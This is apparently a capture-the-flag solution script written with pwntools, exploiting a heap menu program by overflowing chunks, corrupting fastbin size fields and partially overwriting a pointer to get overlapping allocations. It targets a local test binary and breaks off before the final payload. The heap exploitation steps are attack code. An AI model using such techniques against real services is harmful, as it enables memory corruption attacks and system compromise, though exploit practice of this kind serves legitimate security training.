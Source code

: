 ```python
#!/usr/bin/env python
# -*- coding=utf-8 -*-

from pwn import *

def alloc(size):
    r.sendline('1')
    r.sendlineafter(': ', str(size))
    r.recvuntil(': ', timeout=5)

def fill(idx, data):
    r.sendline('2')
    r.sendlineafter(': ', str(idx))
    r.sendlineafter(': ', str(len(data)))
    r.sendafter(': ', data)
    r.recvuntil(': ')

def free(idx):
    r.sendline('3')
    r.sendlineafter(': ', str(idx))
    r.recvuntil(': ')

def dump(idx):
    r.sendline('4')
    r.sendlineafter(': ', str(idx))
    r.recvuntil(': \n')
    data = r.recvline()
    r.recvuntil(': ')
    return data

if __name__ == '__main__':
    debug = 1

    if debug:
        context.log_level = "debug"
        r = process("./test")
    else:
        r = remote("127.0.0.1", 10000)
    r.recvuntil(': ')

    alloc(0x10)
    alloc(0x10)
    alloc(0x10)
    alloc(0x80)
    alloc(0x80)

    payload  = p64(0)*3
    payload += p64(0x21)
    fill(2, payload)

    free(2)
    free(1)

    payload  = p64(0)*3
    payload += p64(0x21)
    payload += p8(0x60)
    fill(0, payload)

    alloc(0x10)
    alloc(0x10)

    payload  = p64(0)*7
    payload += p64(0x91)
```